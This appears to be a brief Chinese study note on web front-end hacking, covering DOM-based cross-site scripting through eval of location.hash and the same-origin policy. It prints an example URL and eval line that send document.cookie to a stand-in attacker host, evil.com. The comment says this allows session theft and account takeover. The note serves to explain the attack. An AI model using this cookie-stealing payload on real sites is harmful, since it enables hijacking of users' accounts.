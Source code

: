 ```yaml
---
title: Web前端黑客技术揭秘:第一章 数据与指令
date: 2017-03-31 00:34:46
tags:
category: 
- 黑客
- web前端黑客技术揭秘
---
```


SQL注入的发生和跨站脚本的发生
当脚本访问链接
`http://www.foo.com/info.html#new%20Image().src="http://www.evil.com/steal.php?c="+escape(document.cookie)`
```javascript
eval(location.hash.substr)
// 相当于下面,Cookie会话信息就会被盗取到黑客上面,利用Cookie就可以登录被攻击者的账号,进行越权操作,都不用发ajax了......
eval('new Image().src="http://www.evil.com/steal.php?c="+escape(document.cookie)')
```


* 同源策略
不同域的客户端脚本在没明确授权下不能读写对方的资源
